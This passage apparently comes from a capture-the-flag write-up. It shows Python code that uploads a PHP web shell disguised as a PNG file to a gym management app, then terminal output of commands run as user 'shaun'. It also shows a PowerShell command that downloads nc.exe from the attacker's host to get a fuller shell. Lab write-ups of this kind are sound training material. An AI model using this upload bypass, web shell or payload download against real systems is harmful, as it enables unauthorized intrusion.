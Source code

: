```python
    UPLOAD_DIR = 'upload.php?id=kamehameha'
    UPLOAD_URL = SERVER_URL + UPLOAD_DIR
    s = requests.Session()
    s.get(SERVER_URL, verify=False)
    PNG_magicBytes = '\x89\x50\x4e\x47\x0d\x0a\x1a'
    png     = {
                'file': 
                  (
                    'kaio-ken.php.png', 
                    PNG_magicBytes+'\n'+'<?php echo shell_exec($_GET["telepathy"]); ?>', 
                    'image/png', 
                    {'Content-Disposition': 'form-data'}
                  ) 
              }
    fdata   = {'pupload': 'upload'}
    r1 = s.post(url=UPLOAD_URL, files=png, data=fdata, verify=False)
    webshell(SERVER_URL, s)
```

The exploit first makes a GET request to `/upload.php?id=kamehameha`. Then it creates a malicious PNG file where it implants a backdoor that will run any system command that is supplied to a `telepathy` parameter. Then it makes a POST request to the URL to upload the malicious PNG file. Finally it triggers the `webshell()` function to provide us a web shell.

Now let us run the exploit and see if it works.

```
┌──(root💀nehal)-[~]
└─# python 48506.py http://10.129.135.106:8080/
            /\
/vvvvvvvvvvvv \--------------------------------------,
`^^^^^^^^^^^^ /============BOKU====================="
            \/

[+] Successfully connected to webshell.
C:\xampp\htdocs\gym\upload> whoami
�PNG
▒
buff\shaun

C:\xampp\htdocs\gym\upload>
```

# [](#header-1)SHELL AS SHAUN :

Let us get out of this web shell and get a real shell for `shaun`. I am transferring `nc.exe` from my local box for the same.

```
C:\xampp\htdocs\gym\upload> powershell -c Invoke-WebRequest -Uri http://10.10.14.57/nc.exe -OutFile nc.exe
�PNG
▒

C:\xampp\htdocs\gym\upload> dir
�PNG
▒
 Volume in drive C has no label.
 Volume Serial Number is A22D-49F7

 Directory of C:\xampp\htdocs\gym\upload

28/05/2021  18:36    <DIR>          .
28/05/2021  18:36    <DIR>          ..
28/05/2021  18:33                53 kamehameha.php
```